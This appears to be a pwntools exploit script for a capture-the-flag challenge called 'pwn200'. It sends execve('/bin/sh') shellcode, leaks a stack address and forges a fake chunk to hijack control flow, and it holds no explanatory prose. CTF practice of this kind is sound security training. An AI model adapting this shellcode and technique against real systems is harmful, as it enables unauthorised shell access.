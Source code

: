 ```python
from pwn import *

elf_path = './pwn200'
elf = ELF(elf_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

# session = ssh(host ='node5.buuoj.cn', port = 26482, user ='CTFMan', password ='guest')
# p = session.process(['./vuln'])
#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
n64     = lambda x                  :(x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------
payload = asm('''
            xor 	rsi, rsi
            push	rsi	
            mov 	rdi, 0x68732f2f6e69622f
            push	rdi
            push	rsp		
            pop	    rdi			
            mov 	al,	59	
            cdq				
            syscall
        ''')
payload = payload.ljust(48, b"a")
sa(b"who are u?\n", payload)
rbp_addr = u64Leakbase(0) - 0x60 - 0x60
li("rbp_addr", rbp_addr)

sla(b"give me your id ~~?\n", str(0x41).encode())
# gdb.attach(p, " b *0x400A3B ")
# pause()
payload = b""
payload += p64(0)
payload += p64(0x61)
payload = payload.ljust(0x38, b"b")
payload += p64(rbp_addr + 0x10)
sla(b"give me money~\n", payload)

sla(b"your choice :", str(2).encode())
sla(b"your choice :", str(1).encode())
sla(b"how long?", str(0x58).encode())
sla(b"give me more money : ", b"c"*0x38+p64(rbp_addr+0x70))
```
